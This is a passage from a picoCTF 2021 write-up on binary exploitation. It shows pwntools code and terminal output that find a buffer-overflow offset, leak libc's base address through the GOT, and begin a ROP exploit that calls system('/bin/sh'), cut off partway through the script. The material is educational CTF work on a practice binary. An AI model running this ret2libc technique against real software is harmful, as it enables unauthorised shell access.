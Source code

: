 ```python
libc.address = find_libc_base()

io.close()

```

Run the sctipt to get the Libc base address
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2021/Binary_Exploitation/Heres_a_LIBC]
└─$ ~/python_venvs/pwntools/bin/python leak_libc_addr.py 
[+] Starting local process '/mnt/hgfs/CTFs/picoCTF/picoCTF_2021/Binary_Exploitation/Heres_a_LIBC/vuln_patched': pid 79734
[*] Process '/mnt/hgfs/CTFs/picoCTF/picoCTF_2021/Binary_Exploitation/Heres_a_LIBC/vuln_patched' stopped with exit code -11 (SIGSEGV) (pid 79734)
[+] Parsing corefile...: Done
[*] '/mnt/hgfs/CTFs/picoCTF/picoCTF_2021/Binary_Exploitation/Heres_a_LIBC/core.79734'
    Arch:      amd64-64-little
    RIP:       0x400770
    RSP:       0x7fffa12416e8
    Exe:       '/mnt/hgfs/CTFs/picoCTF/picoCTF_2021/Binary_Exploitation/Heres_a_LIBC/vuln_patched' (0x400000)
    Fault:     0x6261616b6261616a
[*] 4-byte pattern is: jaab
[*] Offset is: 136
[+] Starting local process '/mnt/hgfs/CTFs/picoCTF/picoCTF_2021/Binary_Exploitation/Heres_a_LIBC/vuln_patched': pid 79743
[*] Leaked GOT puts address: 0x7f2ad6a80a30
[*] Libc base address: 0x7f2ad6a00000
[*] Stopped process '/mnt/hgfs/CTFs/picoCTF/picoCTF_2021/Binary_Exploitation/Heres_a_LIBC/vuln_patched' (pid 79743)
```

We can see that the address of Libc (for this execution) was `0x7f2ad6a00000`.

### Stage 2 - Exploit with system(/bin/sh)

We expand our script even further with a call to `system(/bin/sh)` to get a shell
```python
#!/usr/bin/env python3

from pwn import *

exe = context.binary = ELF("./vuln_patched", checksec=False)
libc = ELF("./libc.so.6", checksec=False)

# Set output level (critical, error, warning, info (default), debug)
context.log_level = "info"

PROMPT = b'WeLcOmE To mY EcHo sErVeR!\n'

# Gadget(s) retrieved from ropper
pop_rdi = 0x400913

def find_offset(payload):
    # Launch process
    p = process([exe.path])
    # Send the payload
    p.sendlineafter(PROMPT, payload)
    # Wait for the process to crash
    p.wait()
    # Read pattern from the coredump file and then print it
    pattern = p.corefile.read(p.corefile.sp, 4).decode()
    log.info(f"4-byte pattern is: {pattern}")
    # Calculate the offset and then print it
    offset = cyclic_find(pattern)  
```